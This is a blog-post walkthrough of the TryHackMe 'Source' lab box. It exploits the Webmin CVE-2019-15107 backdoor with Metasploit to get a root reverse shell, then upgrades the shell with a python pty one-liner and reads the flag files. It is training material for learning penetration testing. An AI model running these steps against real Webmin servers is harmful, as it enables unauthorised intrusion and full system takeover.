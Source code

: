 ```yaml
---
layout: post
title: "Source - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Source on TryHackme"
tags: [Source, TryHackMe, Webmin, CVE-2019-15107]
comments: false
---
```




This is an easy box on [TryHackMe](https://tryhackme.com) based on a recent Webmin exploit. Here are the steps to follow to own this box.

First, let's enumerate the box with nmap with **nmap -p- -vv -T4 [machine ip]**.

This shows 2 ports open, 22 (ssh) and 10000 (typically used for webmin)

![Source nmap](/assets/img/Source1.png)

Let's pull up the site on port 10000 with **https://[machine ip]:10000**. This site is using a self signed certificate, so accept the certificate and you will be presented with a webmin login page. A quick google search shows you that the latest CVE for Webmin was CVE-2019-15107, which allows for remote code execution without authentication. This is because of a bug in a parameter in password_change.cgi. Let's launch Metasploit with **msfconsole** and run **search webmin 1.920** one of the results will include an exploit we can use.

![Source Metasploit](/assets/img/Source2.png)

Let's run **use exploit/linux/http/webmin_backdoor** followed by **show options**. You should see a screen similar to the following:

![Source exploit options](/assets/img/Source3.png)

Let's run **SET RHOSTS [machine ip]**, **SET SSL true**, **SET LHOST [your VPN IP] **and then once set, use **run** to attempt the exploit.

![Source run exploit](/assets/img/Source4.png)

You should get a shell within a few moments.

![Source root shell](/assets/img/Source5.png)

Run **whoami** and you will see you have root access.

![Source whoami](/assets/img/Source6.png)

Let's upgrade our shell with **python -c 'import pty; pty.spawn("/bin/sh")'**. Now, let's navigate to the main user home directory with **cd /home** and run **ls** to list the user directories on this server. You will see that there is a user name of **dark** here. 

![Source enumerate user home](/assets/img/Source7.png)

Let's go into his directory with **cd dark** and run **ls -al** to list directory contents. You will see a **user.txt** file, let's run **cat user.txt** and you now have the user flag.

![Source user flag](/assets/img/Source8.png)

Next, let's navigate to /root with **cd /root** and run **ls**. You will see a file named root.txt. Let's view it's contents with **cat root.txt**

![Source root flag](/assets/img/Source9.png)
